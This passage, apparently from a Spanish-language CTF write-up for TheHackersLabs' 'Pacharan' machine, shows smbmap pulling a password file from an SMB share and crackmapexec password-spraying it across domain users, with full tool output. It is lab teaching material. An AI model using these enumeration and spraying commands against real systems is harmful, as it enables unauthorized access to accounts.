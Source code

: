 ```bash
```
Hay un archivo de texto.

Vamos a descargarlo:
```bash
smbmap -H 192.168.69.69 -d PACHARAN.THL -u 'invitado' --download NETLOGON2/Orujo.txt
    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.5 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                      
[+] Starting download: NETLOGON2\Orujo.txt (22 bytes)                                                                    
[+] File output to: /../TheHackersLabs/Pacharan/content/192.168.69.69-NETLOGON2_Orujo.txt
[*] Closed 1 connections
```

Veamos que contiene este archivo:
```bash
cat 192.168.69.69-NETLOGON2_Orujo.txt
Pericodelospalotes6969
```
Parece ser una contraseña.

Podríamos comprobar si esta contraseña es de algún usuario que ya tenemos.  

Podemos aplicar **password spraying** con **crackmapexec**:
```bash
crackmapexec smb 192.168.69.69 -u users.txt -p 'Pericodelospalotes6969' --no-brute --continue-on-success
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [*] Windows 10 / Server 2016 Build 14393 x64 (name:WIN-VRU3GG3DPLJ) (domain:PACHARAN.THL) (signing:True) (SMBv1:False)
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\chivas:Pericodelospalotes6969 STATUS_LOGON_FAILURE 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\hendrick:Pericodelospalotes6969 STATUS_LOGON_FAILURE 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\whisky:Pericodelospalotes6969 STATUS_LOGON_FAILURE 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\gordons:Pericodelospalotes6969 STATUS_LOGON_FAILURE 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\redlabel:Pericodelospalotes6969 STATUS_LOGON_FAILURE 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\beefeater:Pericodelospalotes6969 STATUS_LOGON_FAILURE 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\invitado:Pericodelospalotes6969 STATUS_LOGON_FAILURE 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [-] PACHARAN.THL\administrador:Pericodelospalotes6969 STATUS_LOGON_FAILURE 
SMB         192.168.69.69   445    WIN-VRU3GG3DPLJ  [+] PACHARAN.THL\:Pericodelospalotes6969
```
Parece que no pertenece a ninguno.
